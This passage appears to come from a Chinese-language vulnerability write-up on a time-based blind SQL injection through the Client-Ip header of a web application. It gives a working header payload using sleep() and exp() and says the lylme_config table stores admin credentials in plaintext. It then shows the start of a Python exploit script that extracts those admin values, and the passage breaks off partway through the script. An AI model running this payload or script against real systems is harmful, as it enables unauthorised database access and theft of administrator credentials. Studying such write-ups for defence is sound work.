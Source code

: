 [![](assets/1701606448-a60d7d1a3c3130b1a37b504406bcc48e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135329-4a795364-8ce9-1.png)

但是这样我还是觉得不够的，因为当`if`判断正确的时候，语句延时之后还是会执行成功，然后又回到之前的问题，此时注入的效率就跟注入的目标数据成正相关的关系，实际解决这个问题办法很简单，只需要再 sleep(5) 执行之后再拼接一个`exp`即可

```bash
Client-Ip:0'>if(ord(substring(user(),1,1))=114,sleep(5)&exp(999),exp(999))>'
```

## 脚本自动化利用

系统的全局设置内容是从数据库的`lylme_config`表读出来的，里面包括后台账号密码且都是明文的形式

[![](assets/1701606448-aba170454a024bb6a4d9233fbf2be348.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135353-583becd2-8ce9-1.png)

如下所示

[![](assets/1701606448-1c66d379e19102290dc1ba8fa1353135.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135429-6db16c72-8ce9-1.png)

由于是 SQL 时间盲注，写一个快速利用脚本是有必要的。

```bash
def exploit(target, cookie, authcode, timeout=5):
    origin_payload = "select group_concat(v) from lylme_config where k like 'admin%'"
    # 获取长度
    length_payload = f"length(({origin_payload}))"
    # 延时5s
    if timeout < 1:
        timeout += 1
    length = 0
    while True:
        length += 1
        final_length_payload = f"0'>if({length_payload}={(length)},sleep({timeout})&exp(999),exp(999))>'"
        print(f"[*] Trying Length: {length}")
        r1 = post(target, cookie, authcode, final_length_payload)
        if r1.elapsed.total_seconds() > timeout-1:
```